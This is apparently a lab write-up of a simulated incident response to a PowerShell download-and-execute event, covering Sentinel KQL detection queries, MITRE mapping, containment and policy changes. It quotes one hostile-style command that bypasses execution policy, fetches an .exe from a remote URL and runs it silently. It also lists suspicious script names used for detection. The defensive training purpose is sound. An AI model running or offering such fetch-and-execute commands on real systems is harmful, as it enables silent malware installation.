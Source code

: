 # Scenario 2 – PowerShell Web Request and Payload Execution

_A simulated incident response to unauthorized file download and execution via PowerShell, detected through Microsoft Sentinel and Microsoft Defender for Endpoint._

![Alt text](/imgs/powershellmap.png)
---

## 1. Preparation  
- **Objective:** Detect post-exploitation activity involving tools downloaded from the internet via PowerShell.  
- **Context:** Attackers often use built-in tools like `Invoke-WebRequest` to pull malware or scripts onto systems undetected.  
- **Detection Method:** A Microsoft Sentinel analytic rule was configured to trigger if PowerShell includes `Invoke-WebRequest`.  
- **Detection Query:**
  ```
  DeviceProcessEvents
  | where DeviceName == "windows-ado"
  | where FileName == "powershell.exe"
  | where ProcessCommandLine contains "Invoke-WebRequest"
  ```
## 2. Detection & Analysis
- **Alert Name:** PowerShell SuspiciousWebRequest - ADO
- **Affected Host:** windows-ado
- **Triggered By:** User labuser
- **Observed Command:**
    ```powershell
    cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait
    ```

- **User Statement:** Claimed they were installing free software and saw a brief black screen.
- **Initial Findings:** The binary was silently installed using PowerShell with no visible prompts.
- **Process Execution Verification:**
	```kql
    let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1","7z2408-x64.exe"]); 
	DeviceProcessEvents
	| where DeviceName == "windows-ado"
	| where FileName == "powershell.exe"
	| where ProcessCommandLine has "-File" and ProcessCommandLine has_any (ScriptNames)
	| order by TimeGenerated
	| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
    ```
- **Confirmed Executions:** Multiple suspicious scripts were launched by labuser.
- **Reverse Engineering Summary:**
    - portscan.ps1: Scans a range of IPs for open common ports and logs results.
    - Other scripts (e.g., pwncrypt, exfiltratedata) suspected of offensive behavior — passed to RE team.

## 3. MITRE ATT&CK Mapping
| Tactic | Technique | ID | Notes |
|--------|-----------|---|-------|
| Execution	| Command and Scripting Interpreter | T1059.001 | PowerShell used to invoke remote command |
| Ingress Tool | Ingress Tool Transfer | T1105 | External .exe pulled from remote blob storage |
| Initial Access | Exploitation for Client Execution | T1203 | Downloaded .exe silently executed |

## 4. Containment, Eradication & Recovery
- **Containment:**
    - Isolated windows-ado using Microsoft Defender for Endpoint.
    - Terminated PowerShell processes.
- **Eradication:**
    - Ran full antivirus scan on the host — returned clean.
    - Deleted downloaded .exe and any residual scripts.
- **Recovery:**
    - Restored network access after validation.
    - Monitored for reoccurrence of suspicious PowerShell use.

## 5. Post-Incident Activities
- **User Remediation:**
    - labuser was enrolled in additional cybersecurity awareness training.
    - Training materials upgraded using advanced KnowBe4 modules.
- **Policy Changes:**
    - PowerShell usage restricted via GPO/AppLocker for non-administrative accounts.
    - Alerting expanded for all downloads via Invoke-WebRequest.
- **Detection Enhancements:**
    - Deployed the Sentinel KQL rule as a permanent detection rule.
    - Enabled advanced PowerShell logging (ScriptBlockLogging, ModuleLogging).
    

## 6. Recommendations & Next Steps
- Block high-risk URLs and domains using firewall/Defender policies.
- Monitor for common PowerShell download patterns across all endpoints.
- Restrict internet access from non-administrative workstations.
- Establish a file reputation service to alert on unsigned executables.

> ![NOTE]
> These recommendations are illustrative and should be tailored to your organization’s specific environment, policies, and risk tolerance and technical environment.